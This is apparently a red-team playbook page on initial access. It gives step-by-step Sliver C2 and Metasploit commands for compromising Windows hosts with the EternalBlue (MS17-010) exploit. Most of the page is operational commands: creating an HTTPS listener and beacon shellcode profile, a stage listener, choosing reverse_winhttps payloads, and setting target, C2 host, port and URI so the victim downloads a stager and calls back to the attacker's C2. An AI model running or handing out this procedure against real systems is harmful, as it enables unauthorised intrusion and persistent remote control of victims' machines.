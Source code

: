 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - sliver
  - windows
---
```

# Sliver

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This is similar to [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Outdated Software/Cobalt Strike|cobalt strike]] exploitation setup. However, it requires less effort to exploit the vulnerable services.

```
sliver > https -l 443

sliver > profiles new beacon -b https://<IP> -S 5 -J 10 -l -a x64 -o windows -f shellcode stager-shellcode
```

Depending on the listener (or shell handler) type. If the schema is set to HTTPS (`https://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttps` as a payload in #metasploit-framework for an HTTPS stager. If the schema doesn't have TLS encryption (`http://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttp` for an HTTP stager.

```
sliver > stage-listener -u http://<IP>:8080 -P -p stager-shellcode
```

We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/custom/reverse_winhttps` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/custom/reverse_winhttp`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_winhttps

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. This will receive from a sliver's payload staging. You’re telling #metasploit-framework in this case to download an HTTPS stager from sliver.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <sliver_C2_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 8080

msf6 exploit(windows/smb/ms17_010_eternalblue) > set luri /beacon.woff
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```